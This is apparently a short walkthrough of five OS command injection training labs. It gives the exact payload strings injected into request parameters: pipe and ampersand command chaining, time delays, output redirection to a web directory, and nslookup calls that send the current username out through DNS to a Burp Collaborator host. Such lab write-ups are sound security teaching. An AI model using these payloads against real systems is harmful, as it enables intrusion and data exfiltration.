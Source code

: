 # OS Command Injection

### Lab 1: OS command injection, simple case.
- Intercept and modify a request that checks the stock.
- Modify the `storeID` parameter, giving it the value `1|whoami`.
- Observe that the response contains the name of the current user.

### Lab 2: Blind OS command injection with time delays.
- Intercept and modify the request that submits feedback.
- Modify the `message` parameter, changing it to `" & sleep 10 #`
- Observe that the response takes 10 seconds to return.

### Lab 3: Blind OS command injection with output redirection.
- Intercept and modify the request that submits feedback.
- Modify the `message` parameter, changing it to `" & whoami > /var/www/images/tmp.txt #`
- Intercept and modify the request that loads an image of a product.
- Modify the `filename` parameter, changing the value to the name of the file you specified for the output of the injected command: `tmp.txt`
- Observe that the response contains the output from the injected command.

### Lab 4: Blind OS command injection with out-of-band interaction.
- Run `Burp Collaborator` and copy its payload.
- Intercept and modify the request that submits feedback.
- Modify the `message` parameter, changing it to `" & nslookup BURP-COLLABORATOR-PAYLOAD #`
- On Burp Collaborator page, click on `Poll Now` to see the requests sent from the vulnerable page.

### Lab 5: Blind OS command injection with out-of-band data exfiltration.
- Run `Burp Collaborator` and copy its payload.
- Intercept and modify the request that submits feedback.
- Modify the `message` parameter, changing it to `" & nslookup $(whoami).BURP-COLLABORATOR-PAYLOAD #`
- On Burp Collaborator page, click on `Poll Now` to see the requests sent from the vulnerable page, and you can find the name of the user in the response.
